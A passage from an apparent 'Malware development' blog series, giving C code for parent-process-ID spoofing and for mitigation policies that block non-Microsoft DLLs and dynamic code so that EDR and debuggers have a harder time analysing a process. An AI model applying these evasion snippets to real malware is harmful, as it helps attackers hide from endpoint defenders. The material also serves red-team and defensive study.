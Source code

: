 ```c
RtlZeroMemory(&si, sizeof(STARTUPINFOEXA));
RtlZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
si.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)new byte[attributeSize]();
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hExplorerexe, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);

bool s = CreateProcessA("C:\\Windows\\notepad.exe", NULL, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi);
```

What parent process information looks like normally:

![ppid1.png](../images/2020-11-04-Malware_development_part_5/ppid1.png)

And what is looks like when spoofed:

![ppid2.png](../images/2020-11-04-Malware_development_part_5/ppid2.png)

## Process protection
[Adam Chester (\_xpn\_) described](https://blog.xpnsec.com/protecting-your-malware/) two interesting features that can be used to hinder dynamic code analysis performed by EDR or debugging:
* blocking third-party binaries from being loaded into the process: `PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON`
* blocking operations on executable memory pages using Arbitrary Code Gurd (ACG): `PROCESS_CREATION_MITIGATION_POLICY_PROHIBIT_DYNAMIC_CODE_ALWAYS_ON`

This was thoroughly explained by _\_xpn\__ so let's just see some example code:
```c
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;
SIZE_T attributeSize;
RtlZeroMemory(&si, sizeof(STARTUPINFOEXA));
RtlZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

InitializeProcThreadAttributeList(NULL, 1, 0, &attributeSize);
si.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)new byte[attributeSize]();
InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attributeSize);
DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON | PROCESS_CREATION_MITIGATION_POLICY_PROHIBIT_DYNAMIC_CODE_ALWAYS_ON;
UpdateProcThreadAttribute(si.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_MITIGATION_POLICY, &policy, sizeof(HANDLE), NULL, NULL);
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
```